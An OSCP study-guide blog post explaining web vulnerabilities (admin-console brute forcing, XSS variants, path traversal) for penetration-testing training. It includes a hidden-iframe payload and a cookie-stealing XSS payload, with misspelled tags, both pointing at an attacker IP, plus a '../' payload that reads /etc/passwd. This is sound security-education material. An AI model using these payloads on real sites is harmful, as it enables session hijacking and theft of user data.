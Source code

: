 ```yaml
---
title: "OSCP-9: Web-based Vulnerabilities"
author: Adrià
date: 2022-08-11 14:10:00 +0800
categories: [OSCP-Study-Guide]
tags: [OSCP]
render_with_liquid: false
---
```


# Chapter 9: Web-based Vulnerabilities
***

In this chapter we will explain how to identify and exploit the most important web-based vulnerabilities.  I won't enter into a super deep explanation of all vulnerabilities. I am considering writing individual posts with more detail about the most important attacks in the future, but here only the top of the iceberg will be covered. 

## Admin Consoles

Is usual to find some admin consoles behind some directory of the url like **/admin**. 

We can use a tool like **gobuster** with the **-dir** option to Brute Force a webpage searching for common directories using a wordlist. My wordlist recommendation is the **raft-medium-directiries-lowercase**. We can also use **dirbuster**

Lets asume that we have used gobuster and it has found a sucpicious directory with a name like **/phpmyadmin**.

Usually, this consoles are protected with a username/password login. Some software has default credentials like admin/admin, admin/root, */*, etc. If it is a well known software, in this case **php**, we could search for the default credentials and try them, we could have luck and gain access with them. 

However, in most cases the default credentials won't work. Then we will have to try a brute force attack. We could use hydra or create our own script. 

Sometimes won't be just bruteforcing the username and password. Is it possible that the webpage has a token or cookies that must be used. I recommend to use Burp Suite to analyze how is the request being made. 

If a token defined in the html is used, I reccomend to create your own script with python or bash, but you can also use the Burp Suite Intruder method. If you want to try a set of passwords for one username, you can use the **Sniper** type of attack. However, if you need to change different fiels for each attempt, you will need to use a **Pitchfork** attack. 

Values like a token or cookie have to bee extracted from the html, you can do this wit Burp using a **Recursive Grep** payload (Grep - Extract). There you can define an expression that will indicate the starting of the value, and the expression that will define the end of the value. For the username/password, you can use a Simple list (wordlist). 

## Cross-Site Scripting (XSS)

An XSS Vulnerability allows an attacker to inject input that is displayed on a web page and it gets executed. This happens when the input is not correctly sanitized. 

There are three types of XSS variants: stored, reflected and DOM-based.

### Stored XSS attacks

They occur whrn the input that the attacker send is stored in a database or cache and it persist there. When the server uses the infected value, and serves the web-page to any user, it will be victim of the exploit. They tend to appear at websites that have a comment section or forums. 

### Reflected XSS attacks

This type of XSS attack usually have the malicious code in the same link/URL. The web application uses this value defined in the url and displays it inside the web page, being executed. The victim will be the user interacting with that link. 

### DOM-based XSS attacks

They take place solely within the page's DOM (Document Object Model) and the payload is executed as a result of modifying the DOM in the victim's browser. It usually happens when when JavaScript takes data from teh attacker and adds it to a skin that supports dynamic code execution, like ```eval()```or ```innerHTML```. 


While DOM-based XSS occurs by processing data from an untrusted source by writing data to a potentially dangerous sink within the DOM, reflected XSS occurs when an application obtains data in an HTTP request and includes that data within the immediate response in an unsafe way. Thus, this is the main difference between DOM based XSS and reflected XSS.


When you are searching for XSS entry points, you want to search for search fields which don't sanitize the input displayed as output in subsequent pages. Once we have the vulnerable point identified, we can start testing special input to see if the return is unfiltered. 

Dangerous characters are: ```< > ' " { } ;```. If this characters are not removed, the web app may be vulnerable.

We may take into consideration HTML encoding and URL encoding. If we are able to inject ***< >*** and our input is injected inside a div, we would need to inject the **\<script\>** tag before adding the malicious code.

[Here](https://github.com/payloadbox/xss-payload-list) you can find a huge list of different payloads. Note that not all of them will work. You must identify your situation and search for the best payload.   

XSS can be used to deliver client-side attacks since they allow the redirection of the victim's browser to a location that the attacker may control. The attacker could inject an **iframe** where the src points to the IP controlled by the attacker. THe iframe can look like this in order to be invisible: ```<iframe src=http://10.11.12.13/test height="0" width="0"></iframe>```. When any user enters to that page, the browser will request for the "test" resource and the attacker could gather information about the victim.

However, XSS are more used for stealing cookies and session information when the app uses an insecure session management (When the cookies doesn't have the SOecure and HttpOnly flag). 
	- The Secure flag tells the browser to only send the cookie over encrypted connections (SSL connections). 
	- The HttpOnly doesn't allow JavaScript to access to the cookie. If this flag is not set, using XSS we could retrieve cookies. 

Lets create a payload example: 
```
<scritp> new Image().src="http://10.11.12.13/test.jpg?cookie="+document.cookie;</sctipt>
```

The **document.cookie** will retrieve the cookies that the victim is using and they will be sent along with the GET request. Then, the attacker will be able to see the cookie when the GET request is recieved. The attacker can use this cookie to hijack the session of the victim. 

## Directory/Path Traversal Vulnerabilities

This vulnerability allows the attacker to gain unauthorized access to files that are not supposed to be accessed through the web app. This vuln also occurs when the input is not validated, so the attacker can manipulate paths using **../**. 

Usually, this vulnerability is exploited to obtain sensitive information, but in some situations it can lead to file inclusions in specific directories ond overwritte config files. 

If we want to identify this vulnerability, we should search for file references and modify them to see if they are treated as we want.

For example, if the URL looks like this: ```https://examplesite.com/file.php?file=login```, we can try to modify the **file** value with some path traversal payloads, for example ```../../../../../../../../etc/passwd``` (we add several "../" to make sure we set the root (**/**) directory as the current one, and then go to "/etc/passwd"). In the next image you can see this vulnerability beeing exploit in the DamnVulnerableWebApplication

![Path Traversal Example](../../img/posts/2022-08-11-OSCP-9/pathtraversal.jpg)
 
